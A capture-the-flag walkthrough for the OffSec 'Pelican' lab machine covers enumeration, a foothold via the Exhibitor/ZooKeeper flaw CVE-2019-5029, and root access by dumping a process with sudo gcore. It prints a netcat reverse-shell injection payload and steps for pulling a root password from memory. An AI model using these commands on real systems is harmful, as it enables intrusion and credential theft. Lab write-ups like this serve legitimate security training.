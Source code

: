 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/htbasset/offseclogo.jpg
date: 2022-10-20 09:45:47 +07:00
modified: 2022-10-20 09:45:47 +07:00
categories: CTF
machine_author:
  link: https://www.offsec.com/
  name: Offsec
tags: [ Pelican, Gcore, Exhibitor, Zookeeper, CVE-2019-5029, Linux, OSCP, Writeup]
title: Pelican - Offsec
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/offsecbanner.jpeg)



<img src="https://photos.squarezero.dev/file/abir-images/htbasset/offseclogo.jpg" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Pelican</font>

​		11<sup>th</sup> October 2020

​		Machine Author(s): [Offsec]

​		

### Description:

Let's hope to see one at the zoo.

### Difficulty:

`Intermediate`


# Enumeration

First I check for available open ports.

`nmap -p- --min-rate=10000 192.168.196.98`

`nmap -sC -sV -p21,23,80 192.168.196.98 -oA ./nmap/pelican`

|Ports|Service
|22| ssh OpenSSH 7.9p1 Debian
|139| netbios-ssn Samba smbd 3.X - 4.X
|445| 563cafdc3028 Samba smbd 4.9.5-Debian
|631| ipp CUPS 2.2
|2181| zookeeper Zookeeper 3.4.6-1569965
|2222| ssh OpenSSH 7.9p1 Debian
|8080| HTTP Jetty 1.0
|8081| HTTP nginx 1.14.2

![](https://photos.squarezero.dev/file/abir-images/Pelican/1.png)

I have checked SMB share where 2 shares are listed but no access to them.

`smbmap -H 192.168.196.98`

![](https://photos.squarezero.dev/file/abir-images/Pelican/2.png)

# Foothold

I checked checked port 8081 which redirected me to port 8080.
Here I found Exhibitor for ZooKeeper.

![](https://photos.squarezero.dev/file/abir-images/Pelican/3.png)

I looked for known exploits and found [CVE-2019-5029](https://www.exploit-db.com/exploits/48654)

![](https://photos.squarezero.dev/file/abir-images/Pelican/4.png)

It's explained that as Exhibitor have any kind of authenticator we can execute Code via java.env.

First, we have to turn on Editing next we can execute commands using `$()`.

After that we Click Commit > All At Once > OK.

`$(/bin/nc -e /bin/sh 192.168.45.177 4444 &)`

![](https://photos.squarezero.dev/file/abir-images/Pelican/5.png)

It takes 30 sec for it to execute and we get a reverse shell.

![](https://photos.squarezero.dev/file/abir-images/Pelican/6.png)

# Privilege Escalation

Let's get a proper shell. We can run the commands in the following order.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl + z
reset
stty raw -echo; fg
stty rows 54
stty columns 141
export TERM=screen
```
We check what can Charles run as sudo and we find its [gcore]().

`sudo -l`

![](https://photos.squarezero.dev/file/abir-images/Pelican/7.png)

According to [GTFObin](https://gtfobins.github.io/gtfobins/gcore/) using gcore we can dump process and read information.

I also looked for SUID binaries and found [password-store]().

`find / -perm -u=s -type f 2>/dev/null`

![](https://photos.squarezero.dev/file/abir-images/Pelican/8.png)

Let's look for PID for password-store

`ps -aux | grep password-store`

![](https://photos.squarezero.dev/file/abir-images/Pelican/9.png)

We can now drop the process using gcore.

`sudo /usr/bin/gcore 493`

![](https://photos.squarezero.dev/file/abir-images/Pelican/10.png)

Inside the file, we can find the password of root.

![](https://photos.squarezero.dev/file/abir-images/Pelican/11.png)

Now we can login with the password and get the proof.txt.

![](https://photos.squarezero.dev/file/abir-images/Pelican/12.png)